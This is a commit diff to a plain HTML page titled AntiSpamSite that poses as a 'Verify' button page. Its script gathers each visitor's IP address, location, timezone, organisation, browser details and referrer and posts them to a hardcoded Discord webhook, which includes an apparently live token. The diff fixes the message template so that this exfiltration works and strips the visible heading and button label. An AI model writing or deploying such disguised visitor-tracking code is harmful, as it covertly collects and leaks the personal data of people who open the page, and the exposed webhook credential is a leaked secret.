

Before and after one commit to Dbqlx/AntiSpamSite, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; animation ran at ten frames a second.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,8 +10,7 @@
 </head>
 <body>
     <div class="content">
-        <h1>אימות בשרת של עילאי</h1>
-        <button id="verifyButton" class="button">Verify</button>
+        <button id="verifyButton" class="button"></button>
     </div>
 
     <script src="snow.js"></script>
@@ -44,15 +43,13 @@
                     // Prepare the payload to send to Discord
                     const webhookUrl = 'https://discordapp.com/api/webhooks/1349835869753835560/9h2Z7a8wOKcw6skq0udXhmWOKZMcpCZZYwX5r67UA3X2R5ksRQFT9RY_U2ivIdHuN8u3'; // Replace with your webhook URL
                     const payload = {
-                        content:
-                            **User Information:**
-                            **IP Address**: ${ip}
-                            **Location**: ${city}, ${region}, ${country}
-                            **Time Zone**: ${timezone}
-                            **Organization**: ${org}
-                            **Browser Info**: ${browserInfo}
-                            **Referrer**: ${referrer}
-
+                        content: `**User Information:**
+**IP Address**: ${ip}
+**Location**: ${city}, ${region}, ${country}
+**Time Zone**: ${timezone}
+**Organization**: ${org}
+**Browser Info**: ${browserInfo}
+**Referrer**: ${referrer}`
                     };
 
                     // Post the payload to Discord webhook
```
